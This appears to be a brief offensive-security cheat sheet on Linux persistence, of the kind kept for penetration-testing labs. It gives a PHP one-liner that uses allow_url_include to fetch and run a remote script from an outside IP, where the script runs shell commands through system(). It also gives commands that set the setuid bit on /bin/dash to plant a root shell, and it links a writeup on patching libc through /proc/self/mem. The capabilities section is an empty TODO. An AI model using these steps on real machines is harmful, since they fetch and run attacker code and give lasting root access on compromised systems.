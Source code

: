 ## PHP Persistence
Run the following
```bash
php -d allow_url_include=1 -r 'include_once("http://10.10.10.13/hw.php")'
```

`hw.php` Contents
```php
<?php echo("Hello World\n"); ?>
<?php system('whoami'); ?>
```

## Patching LibC
[Linux Internals: How /proc/self/mem writes to unwritable memory - offlinemark](https://offlinemark.com/2021/05/12/an-obscure-quirk-of-proc/)

## Set the setuid bit for `sh` or any binary
```bash
# 1. Find where /bin/sh links to
ls -la /bin/sh

# 2. Set the setuid bit for binary
chmod 4755 /bin/dash

# 3. Check if the bit is set
ls -la /bin/dash
```

## Capabilities 
// TODO